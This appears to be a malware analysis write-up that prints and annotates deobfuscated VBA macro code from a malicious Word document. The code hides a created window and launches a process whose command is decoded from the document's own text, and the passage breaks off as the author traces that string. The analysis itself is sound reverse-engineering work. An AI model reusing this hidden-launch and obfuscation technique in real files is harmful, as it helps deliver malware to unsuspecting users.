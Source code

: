 ```vb
    Set Created_obj = CREATE_AND_HIDE(string + Get4ipjzmjfvp.Fwder3b7t4tqrecw)
    win32_Process. _
    Create CUT_AND_PASTE(REPLACE(cut_sss)), "", Created_obj
End Function

' calls FN_CREATEOBJ and set sizes to 0 (hides the window)
Function CREATE_AND_HIDE(progr_id_2)
    On Error Resume Next
    Set CREATE_AND_HIDE = Rk3572j7tam4v8.FN_CREATEOBJ(REPLACE("" + progr_id_2 + ""))
    CREATE_AND_HIDE.XSize = 0
    CREATE_AND_HIDE.YSize = 0
End Function

' simply calles REPLACE on its argument
Function REPLACE(string)
    On Error Resume Next
    _string_ = (string)
    replaced_str = Dw75ayd2hpcab6.REPLACE_WRAPPER(_string_)
    REPLACE = replaced_str
End Function

'CUT_AND_PASTE = string[0:50] + string[50::2]
Function CUT_AND_PASTE(string)
    On Error Resume Next
    'extracts a substring from a string
    'Mid(string, start, [length])
    'CUT_AND_PASTE = string[0:50]
    CUT_AND_PASTE = Mid(string, 1, 50)
    'for (i = 51; i < len(str4); i += 2)
    For i = 51 To Len(string) Step 2
    'CUT_AND_PASTE += string[i] 
    CUT_AND_PASTE = CUT_AND_PASTE & Mid(string, i, 1)
    Next i
End Function

----------------------------------------------------------------
VBA MACRO Rk3572j7tam4v8.bas 
in file: emo.doc - OLE stream: 'Macros/VBA/Rk3572j7tam4v8'
---------------------------------------------------------------- 
Function FN_CREATEOBJ(Program_ID)
    On Error Resume Next
    Set FN_CREATEOBJ = CreateObject(Program_ID)
End Function
```
Much more readable, right? The only issue is, I don't know what the mysterious `sss` will contain. It's the only puzzle piece that I miss.

According to the Internet, `StoryRanges.Item` is used to fetch the content of the document. I'm not sure what it could return in this case, but I have my theories.

## Anatomy of a `sss`tring
Let's analyze what `sss` is going through in the `MAIN` function.
```vb
'1. initialize with document content
sss = Dw75ayd2hpcab6.StoryRanges.Item(1)
'2. cut the first 4 characters
cut_sss = Mid(sss, 5, Len(sss))
'3. remove the ][(s)]w
'4. select replaced_sss[0:50] + replaced_sss[50::2]
'5. run the thing
Create CUT_AND_PASTE(REPLACE(cut_sss)), "", Created_obj
```
So, from this code, I know that: